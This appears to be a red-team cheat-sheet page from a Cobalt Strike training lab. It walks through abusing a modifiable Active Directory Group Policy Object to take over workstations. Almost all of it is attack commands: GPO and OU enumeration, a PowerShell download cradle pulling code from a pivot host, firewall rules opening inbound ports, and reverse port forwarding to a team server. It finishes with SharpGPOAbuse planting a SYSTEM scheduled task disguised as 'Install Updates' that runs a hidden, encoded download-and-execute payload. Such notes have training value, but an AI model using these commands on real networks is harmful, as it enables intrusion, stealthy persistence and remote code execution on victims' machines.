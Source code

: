 # Group Policy Object (GPO)

## Modify existing GPO

1. Identify GPO where current principal has modify rights

        beacon> powerpick Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

2. Resolve GPOName, Path and SID of principal

        beacon> powerpick Get-DomainGPO -Identity "CN={AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath

        beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

        beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F}

3. Identify the domain OU where the above GPO applies

        beacon> powerpick Get-DomainOU -GPLink "{AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F}" | select distinguishedName

4. Identify the systems under the given OU

        beacon> powerpick Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

5. Setup a pivot listener (1234) on the beacon, and download & execute cradle pointing to pivot (80)

        PS> IEX ((new-object net.webclient).downloadstring("http://wkstn-2:8080/pivot"))

6. Enable inbound traffic on pivot listener (1234) and WebDrive by ports (8080) (requires system access)

        beacon> powerpick New-NetFirewallRule -DisplayName "Rule 1" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 1234
        beacon> powerpick New-NetFirewallRule -DisplayName "Rule 2" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080

7. Setup port forwarding rule to accept the Payload Download request locally and forward to our team server 

        beacon> rportfwd 8080 127.0.0.1 80

8. Use sharpGPOAbuse to add the backdoor (scheduled task) for execution on targetted system

        beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "C:\Windows\System32\cmd.exe" --Arguments "/c powershell -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwB3AGsAcwB0AG4ALQAyADoAOAAwADgAMAAvAHAAaQB2AG8AdAAiACkAKQA=" --GPOName "Vulnerable GPO"

